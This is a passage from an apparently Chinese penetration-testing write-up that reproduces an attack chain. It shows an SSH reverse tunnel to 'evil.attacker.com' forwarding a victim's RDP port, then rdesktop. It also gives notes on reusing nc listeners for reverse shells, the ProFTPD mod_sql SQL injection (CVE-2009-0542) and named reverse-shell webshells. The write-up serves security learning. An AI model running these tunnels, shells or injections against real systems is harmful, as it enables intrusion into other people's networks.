 在数据库服务器上再做一次 Windows 远程桌面的 3389 端口的转发：

```
ssh -l root -t -t -R 3389:10.150.0.20:3389 evil.attacker.com
```

最后，在攻击者本地开启远程桌面：

```
rdesktop 127.0.0.1
```

Bingo!

## 思考

通过本次学习，我发现借助渗透测试演示视频来学习、复现是非常好的提升方法。其中也考察了两个能力：

- 资料搜集能力
- 环境快速、准确搭建能力

另外有一个值得注意的地方：作者的反弹 Shell 反弹到的端口都是 本地的 80。这是可行的。`TCP`方式监听决定了每次建立连接后都会有一个新的端口分配出来供这次连接使用。对于`nc`来说，连接建立后 80 就不再使用了（除非你加了`-k`之类的保持监听的参数）。所以可以重复使用`nc`监听 80 端口。这对于周期性反弹 Shell 时建立多个连接有帮助。

作者的渗透过程十分精彩。让我想起猪猪侠前辈在一次[经历分享](https://github.com/ring04h/papers/blob/master/我的白帽学习路线--20170325.pdf)中讲的一句话：

> 知识面，决定看到的攻击面有多广。  
> 知识链，决定发动的杀伤链有多深。

这个渗透过程也有缺失的地方：后渗透。如果能再展示一下后渗透阶段的操作就更好了。

## 附录一 | CVE-2009-0542

`ProFTPD 1.3`的`mod_sql`模块中`用户名`部分存在`SQL 注入`。

> ProFTPD的SQL认证模块没有正确地处理百分号字符（%）。在mod_sql查询中，可使用百分号表示变量。当mod_sql模块查找到百分号时，就会试图用变量替换，这就改变了基本查询的用户名。

> Anyway, %' effectively makes the single quote unescaped and that eventually allows for an SQL injection during login.

应该是对`%`的处理存在问题。

参考：

- [ProFTPD mod_sql用户名SQL注入漏洞](https://www.seebug.org/vuldb/ssvid-4756)
- [ProFTPd 1.3 - 'mod_sql' 'Username' SQL Injection](https://www.exploit-db.com/exploits/32798/)
- [ProFTPd - 'mod_mysql' Authentication Bypass](https://www.exploit-db.com/exploits/8037/)

## 附录二 | Webshell 反弹 Shell

关于反弹 Shell，可以参考我之前的一篇[总结文章](https://brant-ruan.github.io/sec/2017/11/20/Linux-reverseShell.html)。

这里想补充的是带有反弹 Shell 功能的 Webshell。可以自行搜索以下关键词：

```
PHPSpy
JSPSpy
ASPXSpy
```
